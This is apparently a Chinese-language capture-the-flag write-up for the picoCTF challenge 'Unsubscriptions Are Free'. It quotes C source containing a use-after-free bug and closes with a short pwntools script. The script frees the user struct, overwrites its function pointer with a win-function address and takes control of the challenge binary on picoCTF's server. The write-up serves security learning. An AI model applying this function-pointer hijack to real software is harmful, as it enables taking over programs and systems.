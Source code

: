 # Unsubscriptions Are Free 10
>Check out my new video-game and spaghetti-eating streaming channel on Twixer! program and get a flag. vuln.c  
nc mercury.picoctf.net 6312

# Vuln
在cmd结构体中定义了user的首地址的值是要执行的函数指针，首地址+4是指向username地址的指针。
```cpp
typedef struct {
	uintptr_t (*whatToDo)();
	char *username;
} cmd;

void doProcess(cmd* obj) {
	(*obj->whatToDo)();
}

cmd *user;
```
注销账户时会将user free掉，但是没将被free的指针置null
```cpp
void i(){
	char response;
  	puts("You're leaving already(Y/N)?");
	scanf(" %c", &response);
	if(toupper(response)=='Y'){
		puts("Bye!");
		free(user);
	}else{
		puts("Ok. Get premium membership please!");
	}
}
```
leaveMessage会使用堆上可分配的最前8个字节
```cpp
void leaveMessage(){
	puts("I only read premium member messages but you can ");
	puts("try anyways:");
	char* msg = (char*)malloc(8);
	read(0, msg, 8);
}
```
且leaveMessage不会改写user的函数指针whatToDo，会不检测user是否未被初始化/释放就会尝试直接执行user的whatToDo  
注释提示了这点易受攻击
```cpp
int main(){
	setbuf(stdout, NULL);
	user = (cmd *)malloc(sizeof(user));
	while(1){
		printMenu();
		processInput();
		//if(user){
			doProcess(user);
		//}
	}
	return 0;
}
```

# PWN!
注销用户释放user -> 用leaveMessage向原先属于(user->whatToDo)的地址写入目标函数hahaexploitgobrrr()的地址 -> 程序执行hahaexploitgobrrr()
```python
from pwn import *
p=remote('mercury.picoctf.net',6312)

p.sendline('i')
p.sendline('y')
p.sendline('l')
p.recvuntil("try anyways:")
p.sendline(p32(0x80487d6))
p.interactive()
```
